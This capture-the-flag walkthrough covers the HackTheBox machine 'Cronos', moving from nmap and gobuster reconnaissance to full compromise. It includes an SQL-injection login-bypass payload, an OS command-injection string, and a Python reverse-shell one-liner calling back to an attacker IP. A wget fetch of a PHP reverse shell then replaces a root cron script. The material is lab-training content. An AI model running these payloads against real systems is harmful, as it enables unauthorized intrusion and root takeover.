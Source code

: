 # Cronos

## Nmap

{% code overflow="wrap" %}
```bash
# Nmap 7.92 scan initiated Wed Oct  5 16:49:45 2022 as: nmap -Pn -p 22,53,80 -sCV -O -oN script-scan.txt -v cronos.htb
Nmap scan report for cronos.htb (10.10.10.13)
Host is up (0.026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-title: Cronos
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.000 days (since Wed Oct  5 16:49:41 2022)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct  5 16:50:04 2022 -- 1 IP address (1 host up) scanned in 18.38 seconds
```
{% endcode %}

## HTTP

<figure><img src="../../../.gitbook/assets/image (274).png" alt=""><figcaption></figcaption></figure>

### Webfuzz

{% code overflow="wrap" %}
```
 kali@kali  ~/Documents/htb/cronos  gobuster vhost -u http://cronos.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 100 -o webfuzz.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://cronos.htb
[+] Method:       GET
[+] Threads:      100
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/10/07 16:35:44 Starting gobuster in VHOST enumeration mode
===============================================================
Found: admin.cronos.htb (Status: 200) [Size: 1547]
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

### SQLi

{% embed url="https://book.hacktricks.xyz/pentesting-web/login-bypass#sql-injection-authentication-bypass" %}

We use the following payload for authentication bypass

```sql
admin' or '
```

<figure><img src="../../../.gitbook/assets/image (396).png" alt=""><figcaption></figcaption></figure>

We will now test for OS Command Injection

```
8.8.8.8 & whoami
```

<figure><img src="../../../.gitbook/assets/image (625).png" alt=""><figcaption></figcaption></figure>

We can see we are the `www-data` user, so next we'll try to get a reverse shell

## Foothold

Set up your listener

```
rlwrap -cAr nc -lnvp 443
```

Enter this and click `execute`

{% code overflow="wrap" %}
```
8.8.8.8 & python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.19",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Check your listener and you should have a shell

<figure><img src="../../../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

Checking for scheduled tasks, we see there's a file called `artisan` that is running as a cron job with root privileges every minute of every hour of every month of every day of the week. We'll replace the contents of the file with a php reverse shell.

<figure><img src="../../../.gitbook/assets/image (407).png" alt=""><figcaption></figcaption></figure>

I used revshells.com to generate a reverse shell and pasted it into a file called `privesc.php`

{% embed url="https://www.revshells.com/" %}

<figure><img src="../../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

Using a python web server, I download the file onto the victim machine and changed the name to match the filename in the cron job

```
wget 10.10.14.19/privesc.php
```

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (374).png" alt=""><figcaption></figcaption></figure>

Now set up a new listener (in my case, I will listen on port 445) and in just a few seconds, you should receive another shell, but this time as root

<figure><img src="../../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>
